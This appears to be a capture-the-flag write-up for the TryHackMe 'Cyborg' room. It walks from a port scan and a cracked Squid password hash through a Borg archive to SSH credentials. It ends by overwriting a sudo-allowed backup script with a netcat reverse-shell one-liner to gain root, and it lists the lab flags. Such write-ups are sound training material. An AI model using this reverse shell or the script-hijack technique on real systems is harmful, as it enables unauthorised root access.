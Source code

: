 # Cyborg 

> VOiD | Monday 27 December 2021 05:49:36 AM UTC

My IP : 10.8.253.221
Target IP : 10.10.187.224


```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```


## PORT 80 [http]

/squid/config
```bash
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```
/squid/passwd
```bash
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
using john
squidward        (music_archive)
```

```bash
borg extract home/field/dev/final_archive::music_archive
Enter passphrase for key /home/void/tryhackme/Cyborg/home/field/dev/final_archive:
squidward

┌──(void㉿kali)-[~/…/Cyborg/home/alex/Documents]
└─$ cat note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3

```

## PORT 22 [ssh]
```bash
alex@ubuntu:~$ cat user.txt 
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh

chmod 777 /etc/mp3backups/backup.sh
echo "rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.253.221 4444 >/tmp/f" > /etc/mp3backups/backup.sh
sudo /etc/mp3backups/backup.sh

> # cat root.txt
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}

```